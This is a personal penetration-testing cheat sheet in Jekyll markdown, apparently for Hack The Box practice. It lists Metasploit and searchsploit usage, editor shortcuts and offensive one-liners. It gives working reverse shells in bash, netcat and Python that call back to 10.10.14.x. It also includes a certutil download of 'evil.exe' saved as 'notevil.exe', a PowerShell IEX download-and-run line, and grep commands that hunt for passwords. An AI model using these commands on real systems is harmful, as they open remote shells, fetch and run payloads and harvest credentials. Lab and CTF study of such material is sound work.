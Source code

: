 ```yaml
---
layout: tips
title: Tips and Tricks
---
```


Metasploit
==========
Updates
{% highlight bash%}
searchsploit -u
apt  update ; apt install metasploit-framework
{% endhighlight %}
Searchsploit
{% highlight bash%}
searchsploit -m :copy exploit in pwn
searchsploit -e :examine exploit
searchsploit -p :print full path
{% endhighlight %}
Load exploit to msf
{% highlight bash%}
msf > loadpath /usr/share/metasploit-framework/modules/
or
mv exploit.rb ~/.msf4/modules/exploit/exploit.rb and msf > reload_all
{% endhighlight %}
sessions -l :list sessions

Convert to UTF-16LE
===================
{% highlight bash%}
root@kali:~# echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.1/shell.ps1')" | xxd | head -3
00000000: 4945 5828 4e65 772d 4f62 6a65 6374 204e  IEX(New-Object N
00000010: 6574 2e57 6562 436c 6965 6e74 292e 646f  et.WebClient).do
00000020: 776e 6c6f 6164 5374 7269 6e67 2827 6874  wnloadString('ht
root@kali:~# echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.1/shell.ps1')" | iconv -t UTF-16LE | xxd | head -3
00000000: 4900 4500 5800 2800 4e00 6500 7700 2d00  I.E.X.(.N.e.w.-.
00000010: 4f00 6200 6a00 6500 6300 7400 2000 4e00  O.b.j.e.c.t. .N.
00000020: 6500 7400 2e00 5700 6500 6200 4300 6c00  e.t...W.e.b.C.l.
{% endhighlight %}

Setting up SMB server
=====================
{% highlight bash%}
root@kali:~/HTB/Json/smb# smbserver.py -username root -password root sharingiscaring $(pwd)
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
{% endhighlight %}

One Liners
==========
Dowloading file via certutil
{% highlight bash%}
cmd.exe /C certutil  -split -urlcache -f http://10.10.14.1/evil.exe c:\Users\Admin\Desktop\notevil.exe
{% endhighlight %}
Nmap scan ran through searchsploit
{% highlight bash%}
nmap -p- -sV -oX new.xml 10.10.14.1; searchsploit --nmap new.xml
{% endhighlight %}
List al started services
{% highlight bash%}
cmd.exe /c wmic service where started=true get name, startname
{% endhighlight %}
Wfuzz
{% highlight bash%}
wfuzz -w /wordlist/directory-medium.txt --hc 404 http://testing.com/test.php?FUZZ=1
--hc 404 = exclude 404 response  
--hh 777 = exclude response with 777char  
For more details: [wfuzz][link15] 
{% endhighlight %}
Find all file in a directory and executing a command.
{% highlight bash%}
find . -type f -exec cat {} \;
{% endhighlight %}
Easy transfert
{% highlight bash%}
base64 -w 0 filetotransfert
echo "iOgogIG1haW4oKQo=" | base64 -d > filename
{% endhighlight %}
Finding writable locations
{% highlight bash%}
find / -type d -writable 2> /dev/null
{% endhighlight %}
Looking for creds in the directory
{% highlight bash%}
Grabbing full word
grep -rnw ./ -e 'password' -e 'password' -e 'passwd'
Grabbing partial word
grep -rn ./ -e 'passwd'
{% endhighlight %}
Search for flag
{% highlight bash%}
find / -type f \( -name "root.txt" -o -name "user.txt" \) 2>/dev/nul
{% endhighlight %}
Untar
{% highlight bash%}
tar -xvf
{% endhighlight %}

[Back to the top](#header)

Reverse shells
================
{% highlight bash%}
bash -i >& /dev/tcp/10.10.14.1/9001 0>&1
/bin/sh | nc 10.10.14.1 9001
rm -f /tmp/p; mknod /tmp/p p && nc 10.10.14.1 9001 0/tmp/p
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}
[Back to the top](#header)

Creating Custom Wordlists
=========================
This can be easily achieved using [exrex][link13]:
{% highlight bash%}
python3 exrex.py "(winter|summer|spring|fall|autumn)20[12][678]" -o wordlist
{% endhighlight %}
[Cewl][link14] can also be used to automaticly generate a wordlist by scrapping a website:
{% highlight bash%}
cewl -d 0 https://www.testing.com/
{% endhighlight %}
[Back to the top](#header)

VIM shortcut
=============
{% highlight bash%}
gg            :beginning of the document
G             :end of the document
dd            :delete line
yy            :copy line
p             :paste
gg dG         :delete all
g g " + y G   :yank all line 
: % y +       :yank all line (shorter)
{% endhighlight %}
[Back to the top](#header)

Tmux shortcut
=============
{% highlight bash%}
Ctrl + b c :Create window
Ctrl + b , :Rename current window
Ctrl + b % :Split pane vertically
Ctrl + b " :Split pane horizontally
Ctrl + b z :Toggle pane zoom
Ctrl + b ! :Convert pane into a window
Ctrl + b x :Close current pane
Ctrl + b [ :Enter copy mode
  Ctrl + s      :Enable you to search 
                 (press enter to validate and n for next item)
  Ctrl + space  : Start selecting
  Ctrl + w      :Copy selection
  Ctrl + b + ]  :Paste the selection 
  q : Quit copy mode
/ :Search forward
? :Search backward
n :Next keyword occurance
N :Previous keyword occurance
Spacebar   :Start selection
Esc        :Clear selection
Enter      :Copy selection
Ctrl + b ] : Paste contents of buffer_0
{% endhighlight %}
[Back to the top](#header)

Upgrading Simple Shells to Fully Interactive TTYs
=================================================
{% highlight python%}
python -c 'import pty; pty.spawn("/bin/bash")'
or
python3 -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

Then press CTRL+Z to return to your local shell

{% highlight bash%}
stty -a or (stty size)
stty raw -echo
{% endhighlight %}

Note the number of rows and columns before pressing fg to return to the box

{% highlight bash%}
export SHELL=bash
export TERM=xterm256-color
stty rows number_of_row columns number_of_columns
{% endhighlight %}

Enjoy!
[Back to the top](#header)

Finding non standard binaries 
==============================
{% highlight bash%}
for i in $(ls /sbin/*); do echo $i; done
for i in $(ls /sbin/*); do dpkg --search $i; done
for i in $(ls /sbin/*); do dpkg --search $i 1>/dev/null; done
{% endhighlight %}

To investigate on different location in the $PATH
[Back to the top](#header)

Interesting Links:
==================
- [jwt.io][link1]: Decode and edit jwt token
- [cyberchef][link3]: Decode and encode in multiple format
- [stackedit.io][link4]: Markdown editor
- [devhints.io][link5]: Jekyll dev ops tricks
- [jekyllrb.com][link6]: Jekyll tuto
- [PayloadsAllTheThings][link7]: Payload for everything
- [Netsec][link8]: Idea for future tutorials
- [Pentestmonkey][link9]: Reverse Shell Cheat Sheet
- [W3schools][link10]: Testing new layout
- [Jekyll Tags][link12]: For future reference
[Back to the top](#header)

[link1]:https://jwt.io/  
[link2]:http://jekyllrb.com
[link3]:https://gchq.github.io/CyberChef/
[link4]:https://stackedit.io/app#
[link5]:https://devhints.io/jekyll 
[link6]:https://jekyllrb.com/
[link7]:https://github.com/swisskyrepo/PayloadsAllTheThings
[link8]:https://netsec.ws/?p=376
[link9]:http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[link10]:https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_subnav
[link11]:https://github.com/infodox/python-pty-shells
[link12]:https://longqian.me/2017/02/09/github-jekyll-tag/
[link13]:https://github.com/asciimoo/exrex
[link14]:https://digi.ninja/projects/cewl.php
[link15]:https://wfuzz.readthedocs.io/en/latest/user/getting.html#getting-help
